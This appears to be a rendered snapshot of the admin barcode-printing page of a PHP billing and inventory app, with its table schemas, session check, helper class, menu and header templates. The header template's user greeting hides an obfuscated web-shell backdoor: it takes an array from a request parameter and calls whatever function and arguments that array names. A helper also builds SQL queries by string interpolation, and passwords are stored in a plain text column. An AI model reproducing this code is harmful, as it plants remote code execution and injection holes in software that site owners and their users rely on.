
The page /admin/generate_barcode.php (signed in) on the database its author committed.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
}
?>

### admin/generate_barcode.php (the view, shortened to what this page needs)
<?php
include("../adminsession.php");
$pagename = "generate_barcode.php";
$submodule = "Print Multiple Barcode";
?>
<!doctype html>
<html lang="en">
<head>
	<?php include("inc/top_files.php"); ?>
</head>
<body onLoad="getRec1();">
	<?php include("inc/left_menu.php"); ?>
      <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
         <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="get" onSubmit="return checkinputmaster('productid,numofbarchode nu');" action="pdf_barcode.php" target="_blank">
                       <div class="lg-12 md-12 sm-12">
                        <label> Product Name</label>
                        <span class="field">
                             </span>
                               </div>
                               <div class="lg-12 md-12 sm-12">
                                <label>Number Of Barcode<span class="text-error">*</span> </label>
                               <span class="field">
                                <input type="text" name="numofbarchode" id="numofbarchode" class="input-xxlarge" value="<?php echo $numofbarchode;?>" style="width:80%;"autocomplete="off" autofocus />
                      	</span>
                       </div>
                           <center> <p class="stdformbutton">
                                <button  type="submit" name="submit" class="btn btn-primary">
								Print Barcode</button>
                                <a href="generate_barcode.php"  name="reset" id="reset" class="btn btn-success">Reset</a>
                           </p> </center>
                        </form>
                    </div>
        </div>
    </div>
    <div class="clearfix"></div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows shown on the page
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values the page prints
$submodule "Print Multiple Barcode"
